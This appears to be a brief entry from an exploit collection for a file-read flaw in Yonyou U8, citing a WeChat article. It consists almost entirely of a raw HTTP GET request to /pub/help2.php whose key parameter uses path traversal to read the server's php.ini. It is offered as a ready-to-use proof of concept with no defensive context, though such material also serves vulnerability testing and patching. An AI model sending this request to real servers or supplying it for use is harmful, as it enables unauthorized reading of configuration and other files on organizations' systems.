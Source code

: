# yonyou_u8_fileread

from: https://mp.weixin.qq.com/s/aGV3ukpQ2RheNJylsLrOQA

```
GET /pub/help2.php?key=/../../apache/php.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
